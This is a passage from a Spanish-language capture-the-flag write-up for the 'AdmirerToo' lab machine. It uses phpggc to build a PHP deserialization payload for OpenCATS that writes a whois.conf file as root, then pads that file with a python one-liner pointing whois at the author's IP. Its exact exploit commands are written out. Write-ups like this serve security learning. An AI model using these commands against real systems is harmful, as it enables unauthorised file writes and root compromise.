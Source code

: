 Ahora, como el documento de exploit de opencat nos dice que en la url hay que hacer la serializacion de php en el url, podemos usar la herramienta <a href="https://github.com/ambionics/phpggc">phpggc</a>.
Ahora que sabemos que el comando whois se ejecuta con permisos de root, me genere un archivo con el nombre whois.conf que contiene [mi ip] [mi ip] y ejecute el siguiente comando para obtener la cadena que insertare en el URL.

```s
sudo ./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf ../whois.conf
```

![Php payload](/assets/images/AdmirerToo/php_payload.png)

Y ahora que lo hemos insertado en el URL despues de DataGrid=, veremos si se ha escrito en el lugar que queriamos.

![Whois File](/assets/images/AdmirerToo/whois_file.png)

La prueba es correcta, ahora para jugar con el buffer y que no tome en cuenta lo demas, usaremos un script en python para editar el archivo de .conf, volver a pasarlo por phpggc y mandarlo de nuevo

```s
python3 -c 'print("]*10.10.14.230 10.10.14.230" + " "*500)' > whois.conf
```

Y quedaria ahora de la siguiente manera:

![.conf](/assets/images/AdmirerToo/conf_last.png)
